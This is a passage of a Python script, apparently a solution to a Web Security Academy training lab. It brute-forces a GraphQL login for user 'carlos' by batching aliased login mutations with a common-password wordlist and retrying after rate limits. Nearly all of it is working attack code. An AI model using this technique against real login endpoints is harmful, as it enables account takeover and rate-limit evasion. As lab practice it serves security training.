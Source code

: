 ```python
                mutationLoginQuery = 'login'
                mutationLoginQuery += str(counter)
                mutationLoginQuery += ':login(input:{username:\\"carlos\\",password:\\"'
                mutationLoginQuery += password
                mutationLoginQuery += '\\"}){token,success}'
                query += mutationLoginQuery
                counter += 1
            else:
                mutationLoginQuery = 'mutation login {login(input:{username:\\"carlos\\",password:\\"'
                mutationLoginQuery += password
                mutationLoginQuery += '\\"}){token,success}'
                query += mutationLoginQuery
                counter += 1

        query += '}"}'
        return query

    def bruteforce(self, query):
        headers = {
            'Content-Type': 'application/json'
        }
        bruteforceResponse = self.session.post(self.url, data=query, headers=headers)
        print('[*] Sending the login aliases query...')

        if 'true' in bruteforceResponse.text:
            jsonResponse = json.loads(bruteforceResponse.text)
            for login in jsonResponse['data']:
                successValue = jsonResponse['data'][login]['success']
                if successValue == True:
                    passwordIndex = int(login[5:])
                    print('[+] Found the correct password!')
                    print(f'[+] Username: carlos, password: {passwordWordlist[passwordIndex]}')
            return

        if 'You have made too many incorrect login attempts.' in bruteforceResponse.text:
            print('[-] Rate limited!! Please wait 1 minute... (Sleeping 1 minute)')
            sleep(60)
            self.bruteforce(query)
            return

if __name__ == '__main__':
    url = 'https://0a78009404f1fb2f80087b93004d0037.web-security-academy.net/graphql/v1'
    passwordWordlist = ['123456', 'password', '12345678', 'qwerty', '123456789', '12345', '1234', '111111', '1234567', 'dragon', '123123', 'baseball', 'abc123', 'football', 'monkey', 'letmein', 'shadow', 'master', '666666', 'qwertyuiop', '123321', 'mustang', '1234567890', 'michael', '654321', 'superman', '1qaz2wsx', '7777777', '121212', '000000', 'qazwsx', '123qwe', 'killer', 'trustno1', 'jordan', 'jennifer', 'zxcvbnm', 'asdfgh', 'hunter', 'buster', 'soccer', 'harley', 'batman', 'andrew', 'tigger', 'sunshine', 'iloveyou', '2000', 'charlie', 'robert', 'thomas', 'hockey', 'ranger', 'daniel', 'starwars', 'klaster', '112233', 'george', 'computer', 'michelle', 'jessica', 'pepper', '1111', 'zxcvbn', '555555', '11111111', '131313', 'freedom', '777777', 'pass', 'maggie', '159753', 'aaaaaa', 'ginger', 'princess', 'joshua', 'cheese', 'amanda', 'summer', 'love', 'ashley', 'nicole', 'chelsea', 'biteme', 'matthew', 'access', 'yankees', '987654321', 'dallas', 'austin', 'thunder', 'taylor', 'matrix', 'mobilemail', 'mom', 'monitor', 'monitoring', 'montana', 'moon', 'moscow']
    
    bruteforcer = Bruteforcer(url, passwordWordlist)
    query = bruteforcer.prepareLoginMutationQuery()
    bruteforcer.bruteforce(query)
```
